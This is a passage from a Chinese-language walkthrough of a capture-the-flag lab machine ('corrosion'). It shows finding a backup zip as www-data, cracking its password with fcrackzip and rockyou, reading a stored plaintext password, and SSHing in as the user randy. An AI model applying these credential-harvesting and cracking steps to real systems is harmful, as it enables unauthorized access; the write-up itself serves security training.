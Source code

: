 2. 寻找敏感文件
    - 在`/var/backups`下发现文件`user_backups.zip` ,刚好有权限，我们将它复制到`/tmp`目录并且解压
        
        ```python
        www-data@corrosion:/var/backups$ ls -al
        -rw-r--r--  1 root root    3285 Jul 30  2021 user_backup.zip
        www-data@corrosion:/var/backups$ cp user_backup.zip /tmp
        www-data@corrosion:/var/backups$ cd /tmp
        www-data@corrosion:/tmp$ unzip user_backup.zip
        unzip user_backup.zip
        Archive:  user_backup.zip
           skipping: id_rsa                  unable to get password
           skipping: id_rsa.pub              unable to get password
           skipping: my_password.txt         unable to get password
           skipping: easysysinfo.c           unable to get password
        ```
        
        发现需要密码，我们将它（靶机使用python搭建简易服务器）下载到`kali`
        
3. 破解`zip`文件
    
    使用`fcrackzip`工具进行破解，并且使用指点`rockyou` （破解率较高）
    
    ```python
    fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u user_backup.zip 
    
    PASSWORD FOUND!!!!: pw == !randybaby
    ```
    
    破解出密码`!randybaby`
    
4. 查看压缩包文件
    
    解压出四个文件 `id_rsa` `id_rsa.pub` `my_password.txt` `easysysinfo.c`
    
    ```python
    # my_password.txt 感觉像是randy用户的密码
    randylovesgoldfish1998
    ```
    
5. 尝试使用密码登录`randy`账户
    
    ```python
    ssh randy@192.168.56.4                                 
    randy@192.168.56.4's password: 
    Welcome to Ubuntu 21.04 (GNU/Linux 5.11.0-25-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    119 updates can be installed immediately.
    0 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Last login: Fri Jul 30 15:28:02 2021 from 10.0.0.69
    ```
    